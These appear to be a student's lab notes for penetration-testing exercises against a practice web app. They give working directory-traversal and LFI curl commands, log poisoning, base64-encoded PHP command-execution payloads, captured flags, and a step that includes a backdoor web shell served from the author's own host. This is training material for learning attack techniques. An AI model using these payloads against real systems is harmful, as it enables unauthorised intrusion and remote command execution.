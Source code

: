 ## 9.1 VM1-2
* Exploit the LFI vulnerability in the web application "Mountain Desserts" on WEB18 (VM #1) (located at http://mountaindesserts.com:8001/meteor/) to execute the PHP /opt/admin.bak.php file with Burp or curl.
* Enter the flag from the output. 
* Not really an LFI, but DIR traversal: `curl --path-as-is http://mountaindesserts.com:8001/meteor/index.php?page=../../../../../../../../../opt/admin.bak.php`
* OS{27dd9eea97bc8d1eabe19176a0de80c3}

## 9.1 VM2 Windows
* IP : 192.168.232.193
* The "Mountain Desserts" web application now runs on VM #2 at http://192.168.50.193/meteor/ (The third octet of the IP address in the URL needs to be adjusted).
*  Use the LFI vulnerability in combination with Log Poisoning to execute the dir command. 
* Poison the access.log log in the XAMPP C:\xampp\apache\logs log directory .
* Find the flag in one of the files from the dir command output.

* Validated directory traversal : `curl --path-as-is http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../windows/system32/drivers/etc/hosts`
* Viewing poisonable items in log : `/xampp/apache/logs/access.log`
* Poisoned log with User-Agent PHP code view admin.php 
* DIR with CMD exec found file : `hopefullynobodyfindsthisfilebecauseitssupersecret.txt`
* Exec CMD : type%20hopefullynobodyfindsthisfilebecauseitssupersecret.txt

## 9.2.1 VM1 - 192.168.208.16
* Exploit the Local File Inclusion vulnerability on WEB18 (VM #1) by using the php://filter with base64 encoding
* to include the contents of the /var/www/html/backup.php file with Burp or curl.
* Copy the output, decode it, and find the flag.
    1. Started Burp, Navigated to URL, clicked on Admin on bottom of page
    2. Send this request to repeater, then modified request and added the PHP filter wrapper, along with DIR traversal
    3. Took Base64 output, and decoded on terminal, got flag : OS{4de1bc5741e4c840cff3128632feff3b}

```shell
http://192.168.208.16/meteor/index.php?page=admin.php# # 1
index.php?page=php://filter/convert.base64-encode/resource=../../../../var/www/html/backup.php # 2
echo "PCF...D4K" | base64 -d  # 3 - decoded from Base64 with echo, got flag
```

* Follow the steps above and use the data:// PHP Wrapper in combination with the URL encoded PHP snippet we used in this section to 
* execute the uname -a command on WEB18 (VM #1). Enter the Linux kernel version as answer.
    1. Started Burp, Navigated to URL, clicked on Admin on bottom of page
    2. Sent to repeater, modified request for Data Wrapper, got uname -a kernel version
    3. Works without encoding and with encoding on this PHP server


```shell
# 
?page=data://text/plain,<?php%20echo%20system('ls');?> # no encoding
?page=data://text/plain,<?php%20echo%20system('uname%20-a');?> # no encoding
# echo -n '<?php echo system($_GET["cmd"]);?>' | base64
?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=uname%20-a  # with encoding
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=uname%20-a" --proxy 127.0.0.1:8080  # curl example
```
## 9.2.3 VM1 - 192.168.208.16
* Started python web server `python3 -m http.server 80`
* issued curl command to LFI the simple-backdoor.php script that is found in `/usr/share/webshells/php/simple-backdoor.php`